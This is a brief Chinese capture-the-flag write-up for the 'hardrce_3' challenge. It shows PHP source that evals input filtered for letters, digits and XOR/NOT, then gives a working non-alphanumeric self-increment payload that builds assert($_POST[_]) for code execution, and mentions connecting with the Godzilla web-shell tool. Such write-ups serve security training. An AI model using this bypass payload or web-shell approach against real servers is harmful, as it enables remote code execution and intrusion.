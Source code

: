 ![](https://i.loli.net/2021/10/11/YNTGueWQ86dShrC.png)

![](https://i.loli.net/2021/10/11/MgZ4BurmOyKPHcG.png)

### hardrce_3

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\^','\~','\|'];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("小伙子只会异或和取反？不好意思哦LTLT说不能用！！");
    }}
if(preg_match('/[a-zA-Z0-9]/is',$wllm))
{
    die("Ra'sAlGhul说用字母数字是没有灵魂的！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 
```

[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）_羽的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/109143413)

自增：

```
//测试发现7.0.12以上版本不可使用
//使用时需要url编码下
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后post传入   _=phpinfo();

```

但是ban了很多函数

可以伪协议读文件，但不知道咋看文件内容--

直接哥斯拉连一下就行

![](https://i.loli.net/2021/10/11/5cCsF8WuzXy4oSq.png)